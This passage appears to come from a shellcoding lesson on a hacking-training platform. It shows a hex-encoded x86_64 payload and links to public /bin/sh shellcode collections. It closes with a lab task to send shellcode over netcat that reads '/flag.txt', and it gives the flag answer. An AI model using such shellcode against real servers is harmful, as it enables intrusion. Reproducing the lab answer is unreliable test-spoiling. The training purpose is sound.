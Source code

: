 ```shell-session
Payload size: 71 bytes
Final size of hex file: 142 bytes
4831c94881e9fcffffff488d05efffffff48bb5a63e4e17d0bac1348315827482df8ffffffe2f4ea58acd0af59e4ac75018d8f5224df7b0d2b6d062f5ce49abc6ce1e17d0bac13
```
- As we can see, our payload was encoded and became much larger as well.



### Shellcode Resources
- Finally, we can always search online resources like [Shell-Storm](http://shell-storm.org/shellcode/) or [Exploit DB](https://www.exploit-db.com/shellcodes) for existing shellcodes.
- For example, if we search [Shell-Storm](http://shell-storm.org/shellcode/) for a `/bin/sh` shellcode on `Linux/x86_64`, we will find several examples of varying sizes, like this [27-bytes shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php). 
- We can search [Exploit DB](https://www.exploit-db.com/shellcodes) for the same, and we find a more optimized [22-bytes shellcode](https://www.exploit-db.com/shellcodes/47008), which can be helpful if our Binary Exploitation only had around 22-bytes of overflow space. 
- We can also search for encoded shellcodes, which are bound to be larger.
- The shellcode we wrote above is 27-bytes long as well, so it looks to be a very optimized shellcode. 
- With all of that, we should be comfortable with writing, generating, and using shellcodes.



### Questions
- The above server simulates an exploitable server you can execute shellcodes on. Use one of the tools to generate a shellcode that prints the content of '/flag.txt', then connect to the server with "nc SERVER_IP PORT" to send the shellcode.
	- HTB{r3m073_5h3llc0d3_3x3cu710n}